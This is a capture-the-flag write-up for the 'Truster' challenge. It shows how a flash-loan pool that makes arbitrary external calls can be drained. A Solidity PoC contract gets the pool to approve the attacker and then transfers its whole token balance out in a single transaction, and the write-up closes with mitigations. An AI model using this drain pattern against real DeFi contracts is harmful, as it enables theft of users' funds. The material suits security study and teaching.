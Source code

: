 ## `flashLoan` function allows anyone to call any external contract function on behalf of the Pool

A malicious actor can pass the token address as target, to `approve` any desired address and then execute a `transferFrom` to take the funds. 

Notice: a requirement of the CTF is to execute the attack within a single transaction. For this we have multiple options like:
- Execute the exploit logic on the constructor of a contract (so the only transaction will be the contract deployment).
- Use a multicall contract BUT deployed by "someone else", so we don't sum the deploment tx to the executed txs.

### PoC
Create an 'Attacker' contract with the exploit logic on the constructor:
```solidity
contract Attacker {
    constructor(TrusterLenderPool pool, address recovery, DamnValuableToken token) {
        // 1. Prepare token approve data 
        bytes4 selector = bytes4(keccak256(bytes("approve(address,uint256)")));
        bytes memory data = abi.encodeWithSelector(selector, address(this), token.balanceOf(address(pool)));

        // 2. Call flashloan to execute the approve
        pool.flashLoan(0, address(this), address(token), data); // notice: 0 as amount to not modify the pool's balance and receiver could be any address

        // 4. execute transferFrom to recover the funds 
        token.transferFrom(address(pool), recovery, token.balanceOf(address(pool)));
    }
}
```
Then just deploy it on the test suite:
```solidity
    function test_truster() public 
    checkSolvedByPlayer 
    {
        // the constructor of the contract has the attack logic. Also the deploy is a single tx
        new Attacker(pool, recovery, token);
    }
```

### Recommended mitigation
- Follow the ERC-3156 standard rules for flashloan implementation or, at least, hardcode the call to `onFlashLoan` instead of allow any arbitrary function. 
- In case it is required to allow calls to any receiver contract's function (For any kind of specific business logic) consider to add a whitelist of allowed receivers that goes through a previous security process. 